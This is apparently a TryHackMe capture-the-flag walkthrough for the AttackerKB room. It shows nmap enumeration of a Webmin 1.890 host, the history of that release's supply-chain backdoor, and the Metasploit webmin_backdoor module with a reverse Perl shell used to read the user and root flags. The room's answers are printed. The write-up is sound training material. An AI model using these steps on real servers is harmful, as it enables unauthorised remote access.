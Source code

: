 # TryHackMe [AttackerKB](https://tryhackme.com/room/attackerkb)
### References
* DarkSec. (2020). TryHackMe AttackerKB Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/_BlqBx_iSzQ
* gdft2112. (2019, August 16). Webmin password_change.cgi Command Injection. AttackerKB. https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection
## Discovering the Lay of the Land
### Scan the machine with `nmap`. What non-standard service can be found running on the high-port?
```bash
$ nmap -sCV -vv <MACHINE_IP>
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 1828141310FC80A46ED0BEB815D89B3E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Answer**: `Webmin`
### Further enumerate this service, what version of it is running?
**Answer**: `1.890`
### After this, view the web page's certificate. What hostname can we find on the cert details?
* According to Chrome's certificate viewer:
![SSL Certificate](certificate.jpg)

**Answer**: `source`
## Learning to Fly
### Which version of Webmin is immediately vulnerable to this exploit?
* According to [`@wvu-r7`](https://attackerkb.com/contributors/wvu-r7):
> This was a supply chain attack: http://www.webmin.com/exploit.html. The backdoor was introduced in a version that was “exploitable” in the default install. Version 1.890 is the money. Anything after requires a non-default setting.
>
> Note that SourceForge installs are affected, but GitHub checkouts aren’t.
>
> ETA: Metasploit added an [exploit module](https://github.com/rapid7/metasploit-framework/pull/12219).

**Answer**: `1.890`
### What type of attack was this?
**Answer**: `supply chain`
### Can you find a link to a post on the Webmin website explaining what happened? What day was Webmin informed of an 0day exploit?
* According to [Webmin's 1.890 warning](https://www.webmin.com/exploit.html):
> * On August 17th 2019, we were informed that a 0-day exploit that made use of the vulnerability had been released. In response, the exploit code was removed and Webmin version 1.930 created and released to all users.

**Answer**: `August 17th 2019`
### We can see in the Assessments that a Metasploit module was added for this backdoor. What pull number was this added in?
**Answer**: `12219`
## Blasting Away
### Beyond `RHOSTS` and `LHOST`, what is the third option we must set to `True`?
```bash
$ msfconsole -q
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > show options
Module options (exploit/linux/http/webmin_backdoor):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
```
**Answer**: `SSL`
### Run the exploit. What is the user flag?
```bash
msf6 exploit(linux/http/webmin_backdoor) > set LHOST tun0 
LHOST => <OPENVPN_IP>
msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS <MACHINE_IP>
RHOSTS => <MACHINE_IP>
msf6 exploit(linux/http/webmin_backdoor) > set SSL true 
SSL => true
msf6 exploit(linux/http/webmin_backdoor) > run
$ find /home -type f -name "user.txt"
/home/dark/user.txt
$ cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
```
**User Flag**: `THM{SUPPLY_CHAIN_COMPROMISE}`
### How about the root flag?
```bash
$ find /root -type f -name "root.txt"
/root/root.txt
$ cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```
**Root Flag**: `THM{UPDATE_YOUR_INSTALL}`